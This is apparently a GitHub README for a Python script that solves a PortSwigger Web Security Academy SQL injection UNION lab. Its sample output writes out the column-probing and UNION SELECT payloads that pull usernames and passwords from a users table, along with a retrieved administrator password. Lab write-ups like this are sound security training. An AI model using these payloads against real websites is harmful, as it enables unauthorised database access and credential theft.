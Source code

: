 # 🔐 SQL injection UNION attack, retrieving data from other tables

This script is designed to test for basic SQL injection vulnerabilities in labs from PortSwigger's Web Security Academy Lab: [SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-using-a-sql-injection-union-attack-to-retrieve-interesting-data/sql-injection/union-attacks/lab-retrieve-data-from-other-tables#). It targets endpoints like `/filter?category=` and checks whether a given payload successfully bypasses input validation.

---

## 🚀 How It Works

The script performs the following steps:

1. **Disables SSL warnings** to avoid certificate issues with lab URLs.
2. **Sets up a proxy** (default: `127.0.0.1:8080`) for interception via tools like Burp Suite.
3. **Accepts two arguments**:
   - `url`: The base URL of the lab.
   - `table`: Name of a separate table that needs be used during UNION SQL Injection.
   - `columns`: A list of columns can be passed by the user separated by space.
4. **Constructs the full request URL** by appending the payload to `/filter?category=`.
5. **Sends the request** and use beautiful soup library to fetch the password for administrator
6. **Prints the result** indicating whether the injection was successful.

---

## 🧪 Sample Usage

```bash
python3 unionRetrieveFromOtherTable.py https://0aed00af03273e1580eb30a8009f0001.web-security-academy.net users username password
```

### ✅ Sample Output

```
(+) Targeting: https://0aed00af03273e1580eb30a8009f0001.web-security-academy.net
(+) Determining number of columns using ORDER BY...

    ➤ Testing payload: ' ORDER BY 1--
    ➤ Testing payload: ' ORDER BY 2--
    ➤ Testing payload: ' ORDER BY 3--

(✓) Found error at column 3, so total columns = 2

(+) Testing which of 2 columns accepts string data...

    ➤ Testing payload: ' UNION SELECT 'test123',null--

(✓) Column 1 accepts string data.

(+) Attempting to extract data from table 'users'...

    ➤ Final payload: ' UNION SELECT username,password FROM users--

(✓) Administrator credentials found:

    ➤ Username: administrator
    ➤ Password: arj0eaiquwuuo2bkibqk
```

---

## 📌 Lab-Specific Note

For this particular lab, the script checks whether the response contains the administrator password in a particular html tag using web scraping to determine success. You can modify this logic in the code to match other labs or contexts.

---

## 📦 Requirements

Install dependencies using:

```bash
pip install -r requirements.txt
```

---

## 📦 Walkthrough of the code
[Code Walkthrough](https://medium.com/@adhithyasivanesh/portswigger-web-security-academy-labs-sqli-lab-1-retrieving-hidden-data-fe40ea356d5d)

